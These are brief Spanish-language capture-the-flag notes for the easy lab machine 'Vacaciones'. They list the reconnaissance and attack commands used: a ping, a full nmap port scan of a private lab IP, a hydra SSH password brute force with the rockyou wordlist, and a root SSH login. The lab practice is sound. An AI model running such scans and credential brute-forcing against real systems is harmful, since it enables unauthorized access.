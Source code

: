 Maquina: Vacaciones
Autor: El Pinguino de Mario 
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

sudo hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2 -t 10 -I

ssh root@172.17.0.2

whoami
